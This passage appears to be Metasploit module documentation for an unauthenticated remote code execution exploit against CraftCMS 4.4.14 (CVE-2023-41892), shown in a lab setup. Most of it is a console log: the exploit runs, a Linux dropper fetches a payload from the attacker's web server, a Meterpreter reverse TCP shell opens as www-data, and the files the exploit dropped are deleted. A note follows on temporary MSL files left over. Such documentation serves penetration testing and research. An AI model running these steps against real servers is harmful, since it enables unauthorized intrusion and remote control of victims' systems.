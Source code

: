 ```shell
Linux craftcms-vuln-web 6.4.16-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Nov 16 10:55:59 UTC 2023 x86_64 GNU/Linux
id
uid=501(www-data) gid=20(dialout) groups=20(dialout)```
### CraftCMS 4.4.14 on MacOS Linux Dropper - linux/x64/meterpreter/reverse_tcp
```shell
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > set target 2
target => 2
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/bzzA52uoIqWP
[*] Client 192.168.201.25 (Wget/1.21) requested /bzzA52uoIqWP
[*] Sending payload to 192.168.201.25 (Wget/1.21)
[*] Sending stage (3045380 bytes) to 192.168.201.25
[+] Deleted /var/www/html/web/sFQEhvKKcl.php
[+] Deleted /tmp/phpeQPKpy
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.25:51122) at 2023-12-17 12:35:54 +0000
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.16.2
OS           : Debian 11.8 (Linux 6.4.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
## Limitations
Part of the exploit is the MSL script creation triggered by the Imagick plugin module. These files are created in the directory
set by the `upload_tmp_dir` setting in the `php.ini` file (default `/tmp`). These files are automatically cleaned, but in case of
any failure cleaning these files, do clean them manually otherwise the next exploit session will fail using an outdated MSL file.
These files start with `php` and you can list them with the command `ls php*`.
